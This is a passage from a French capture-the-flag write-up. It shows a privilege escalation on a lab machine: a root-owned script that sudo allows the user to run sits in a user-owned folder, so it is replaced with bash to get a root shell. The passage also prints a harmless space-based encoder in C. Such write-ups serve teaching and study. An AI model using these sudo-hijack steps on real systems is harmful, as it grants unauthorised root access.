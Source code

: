 Clairement l'objectif attendu est de modifier `/etc/hosts` pour rajouter une entrée pour `mywebsite.test` mais j'ai la flemme.

Le fichier `down.sh` appartient à root, mais comme il est dans un dossier dont nous sommes propriétaire, on peut le déplacer et mettre un script à nous à la place :

```console
$ mv down.sh yolo
$ echo -e '#!/bin/bash\nbash' > down.sh
$ cp /bin/bash down.sh
$ sudo /home/bassam/down.sh
root@kira:~# id
uid=0(root) gid=0(root) groups=0(root)
root@kira:~# cd /root
root@kira:/root# ls
Encoder
```

Il n'y a pas de flags mais on trouve le code source du fichier remplit d'espaces :

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>

int main(int argc, char **argv) {
    if (argc != 3) {
        printf("Usage %s <text to encode> <file>\xA", argv[0]);
        exit(1);
    }
    char *string = argv[1];
    int i, j, length = strlen(argv[1]);
    FILE *toFile = fopen(argv[2], "w");
    for (i = 0; i < length; i++) {
        char currentChar = string[i];
        for (j = 0; j < (int)currentChar; j++){ 
            fprintf(toFile, "\x20");
        }
        fprintf(toFile, "\xA");
    }
}
```

L'auteur ne connaissait visiblement pas le mécanisme des permissions Linux, car cette particularité permet de passer outre les deux escalades de privilèges présentes.

